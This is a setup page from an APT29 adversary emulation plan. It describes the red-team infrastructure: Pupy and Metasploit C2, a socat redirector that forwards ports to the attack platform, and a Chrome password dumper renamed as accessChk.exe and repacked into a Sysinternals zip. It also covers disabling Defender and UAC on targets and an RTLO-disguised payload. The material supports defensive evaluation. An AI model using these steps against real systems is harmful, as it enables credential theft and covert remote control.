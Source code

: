 # Scenario 1 Infrastructure

We hope to capture the general structure of what is reported to have been seen being used by APT29.  The infrastructure listed below is specific to Scenario 1.  The requirements described herein should be considered a bare minimum to execute the scenario.  If you have the time and resources to remain true-to-form, you may elect to stand up multiple of each of these servers, non-contiguous IP space, etc.  If you are not concerned with emulating APT29 to this degree, this level of effort is not necessary.  You could for instance, phish, serve payload, and exfil from/to the same server.

Please note that binary files hosted in [Scenario_1](Scenario_1.) and [Scenario_2](Scenario_2.) have been added to password protected zip files.  The password for these files is "malware."

---

## Emulation Team Infrastructure

1. **Attack Platform**: tested and executed on Ubuntu 18.04.3 LTS
    - C2 Framework
        - [Pupy](https://github.com/n1nj4sec/pupy)
        - [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
    - [Chrome Password Dumper](https://github.com/adnan-alhomssi/chrome-passwords)
    - [Sysinternals Suite Zip file](https://download.sysinternals.com/files/SysinternalsSuite.zip)
    - [WebDAV Share](https://www.digitalocean.com/community/tutorials/how-to-configure-webdav-access-with-apache-on-ubuntu-14-04)

2. **Redirector**: tested and executed on Ubuntu 18.04.3 LTS
    - [Socat](https://linux.die.net/man/1/socat)

3. **Windows Attack Platform**: Windows 10 x64 version 1903
    - [Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)
    - [Python 3](https://www.python.org/downloads/)
    - [PyInstaller](https://www.pyinstaller.org/)

    **Note:** The Windows attack platform is only required if you would like to compile the Scenario 1 payloads. If you use the pre-compiled payloads, you do not need this system.

---

## Emulation Team Infrastructure Configuration

This methodology assumes the following static IP address configurations:

| Red Team System | IP Address |
| ------ | ------ |
| Attack Platform | 192.168.0.4 |
| Redirector | 192.168.0.5 |

#### A note about red team payloads

- This evaluation utilizes four payloads that model APT29 malware.

- The payloads are customized variants of reverse shells from Pupy RAT and Metasploit.

- Pre-compiled payloads are available in the [resources](Resources2.) directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

- If you would like to build the payloads yourself, please see [payload_configs.md](payload_configs1.md) for further instructions.

### Setup Redirector: 192.168.0.5 (or the value used for the Redirector IP)

From the redirector system, setup port forwarding using Socat.

```powershell
sudo socat TCP-LISTEN:443,fork TCP:192.168.0.4:443 & sudo socat TCP-LISTEN:1234,fork TCP:192.168.0.4:1234 & sudo socat TCP-LISTEN:8443,fork TCP:192.168.0.4:8443 &
```

#### Setup Attack Platform: 192.168.0.4

1. Download Chrome password dumper tool from: <https://github.com/adnan-alhomssi/chrome-passwords/raw/master/bin/chrome-passwords.exe>
2. Download SysInternals zip folder from: <https://download.sysinternals.com/files/SysinternalsSuite.zip>
3. Unzip `SysinternalsSuite.zip`; copy the following files into the SysInternalsSuite directory:
   - `readme.txt`
   - `psversion.txt`
   - `chrome-passwords.exe` (renamed as `accessChk.exe`)
   - `strings64.exe` (compiled from `hostui.cpp`)
4. Zip modified SysinternalsSuite folder
5. Install Pupy and Metasploit on Attack Platform by running `install_day1_tools.sh`
6. Start Pupy docker container then the EC4 listener
   - `sudo pupy/start-compose.sh`
   - `listen -a ec4`

---

## Target Infrastructure

1. 3 targets
    - 1 domain controller and 2 workstations
    - All Windows OS (tested and executed against Win10 1903)
    - Domain joined
    - Same local administrator account on both Windows workstations
2. [Google Chrome Web Browser](https://www.google.com/chrome/) must be available on one of the victim workstations

---

## Target Infrastructure Configuration

#### For each of the 2 target workstations:

1. Login in as user with administrator privileges
2. Ensure Windows Defender is off or configured to alert-only
3. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
4. Verify user has read/write/execute permissions in the C:\Windows\Temp directory
5. Install Google Chrome (https://www.google.com/chrome/); cache credentials in Chrome password manager
6. Import-PFX certificate found in [shockwave.local.pfx](shockwave.local.pfx). Instructions below:

#### Import PFX Certificate

Step 6.B of this emulation models [theft of Private Keys](https://attack.mitre.org/techniques/T1552/004/).

1. Copy the PFX certificate located in the [shockwave.local.pfx](shockwave.local.pfx) file to the Windows victims.

2. Import the certificate using PowerShell:

```powershell
Import-PfxCertificate -Exportable -FilePath "shockwave.local.pfx" -CertStoreLocation Cert:\LocalMachine\My
```

#### Add RTLO character and place rcs.3aka3.doc on Windows Victim-1

* See [payload_configs.md](payload_configs1.md) for instructions on how to update [cod.3aka3.scr](cod.3aka3.scr)

---

## Additional Plan Resources

- [Intelligence Summary](Intelligence_Summary2.md)
- [Operations Flow](Operations_Flow2.md)
- [Emulation Plan](README4.md)
  - [Scenario 1 - Infrastructure](Infrastructure1.md)
  - [Scenario 1](README5.md)
  - [Scenario 2 - Infrastructure](Infrastructure2.md)
  - [Scenario 2](README6.md)
  - [YAML](yaml.)
- [Archive](Archive.)
- [Issues](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/issues)
- [Change Log](CHANGE_LOG2.md)
